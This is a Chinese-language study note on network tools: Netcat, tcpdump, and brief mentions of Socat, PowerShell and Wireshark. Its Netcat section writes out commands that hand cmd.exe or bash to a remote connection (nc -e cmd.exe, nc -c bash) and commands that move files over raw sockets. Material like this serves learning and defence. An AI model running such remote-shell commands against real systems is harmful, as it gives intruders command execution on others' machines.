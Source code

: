 ## Netcat

nc -nv 192.168.2.16 110 —连接主机特定端口

nc -nvlp 4444 —监听4444端口

```markdown
netstat -atunlp,各参数含义如下:

- t : 指明显示TCP端口
- u : 指明显示UDP端口
- l : 仅显示监听套接字(LISTEN状态的套接字)
- p : 显示进程标识符和程序名称，每一个套接字/端口都属于一个程序
- n : 不进行DNS解析
- a 显示所有连接的端口
```

示例：nc -lp 4444 > wget.exe  —监听方，接收方

nc -nv 192.168.2.22 4444 < wget.exe

### 正向连接与反向连接

a主机为windows b主机为linux 正向连接

a:nc -nv 192.1.1.2 8888 -e cmd.exe 主机为windows则需要使用-e参数来进行程序重定向 b:nc -lp 8888 在b主机上发起一个监听端口等待a主机的连接 ----监听机获得连接机的cmd执行权限 反向连接

a:nc -nv 192.168.1.2 8888 b:nc -lp 8888 -c bash 使用-c参数将bash丢给连接方 -----a主机获得b主机的shell执行

#### 随手命令：

压缩当前的文件夹 zip -r ./abc.zip ./* -r表示递归

zip [参数] [打包后的文件名] [打包的目录路径]

## Socat

暂时略过：环境搭建总是不成功。缺少核心dll文件，貌似还需要进行配对，尝试许久没有找到合适的dll文件，故此略过，该工具与ncat使用方法类似。

## powershell

略

## wireshark

网络嗅探分析工具，抓取网络上流动的数据包并进行分析。

## TcpDump

以下用法来自网络：

网络数据包截获分析工具。支持针对网络层、协议、主机、网络或端口的过滤。并提供and、or、not等逻辑语句帮助去除无用的信息。

tcpdump - dump traffic on a network

### 不指定任何参数

监听第一块网卡上经过的数据包。主机上可能有不止一块网卡，所以经常需要指定网卡。

```
tcpdump
```

### 监听特定网卡

```
tcpdump -i en0
```

### 监听特定主机

例子：监听本机跟主机`182.254.38.55`之间往来的通信包。

备注：出、入的包都会被监听。

```
tcpdump host 182.254.38.55
```

### 特定来源、目标地址的通信

特定来源

```
tcpdump src host hostname
```

特定目标地址

```
tcpdump dst host hostname
```

如果不指定`src`跟`dst`，那么来源 或者目标 是hostname的通信都会被监听

```
tcpdump host hostname
```

### 特定端口

```
tcpdump port 3000
```

### 监听TCP/UDP

服务器上不同服务分别用了TCP、UDP作为传输层，假如只想监听TCP的数据包

```
tcpdump tcp
```

### 来源主机+端口+TCP

监听来自主机`123.207.116.169`在端口`22`上的TCP数据包

```
tcpdump tcp port 22 and src host 123.207.116.169
```

### 监听特定主机之间的通信

```
tcpdump ip host 210.27.48.1 and 210.27.48.2
```

`210.27.48.1`除了和`210.27.48.2`之外的主机之间的通信

```
tcpdump ip host 210.27.48.1 and ! 210.27.48.2
```

### 稍微详细点的例子

```
tcpdump tcp -i eth1 -t -s 0 -c 100 and dst port ! 22 and src net 192.168.1.0/24 -w ./target.cap
```

(1)tcp: ip icmp arp rarp 和 tcp、udp、icmp这些选项等都要放到第一个参数的位置，用来过滤数据报的类型

(2)-i eth1 : 只抓经过接口eth1的包

(3)-t : 不显示时间戳(

4)-s 0 : 抓取数据包时默认抓取长度为68字节。加上-S 0 后可以抓到完整的数据包

(5)-c 100 : 只抓取100个数据包

(6)dst port ! 22 : 不抓取目标端口是22的数据包

(7)src net 192.168.1.0/24 : 数据包的源网络地址为192.168.1.0/24

(8)-w ./target.cap : 保存成cap文件，方便用ethereal(即wireshark)分析

### 抓http包

TODO

### 限制抓包的数量

如下，抓到1000个包后，自动退出

```
tcpdump -c 1000
```

### 保存到本地

备注：tcpdump默认会将输出写到缓冲区，只有缓冲区内容达到一定的大小，或者tcpdump退出时，才会将输出写到本地磁盘

```
tcpdump -n -vvv -c 1000 -w /tmp/tcpdump_save.cap
```

也可以加上`U`强制立即写到本地磁盘（一般不建议，性能相对较差）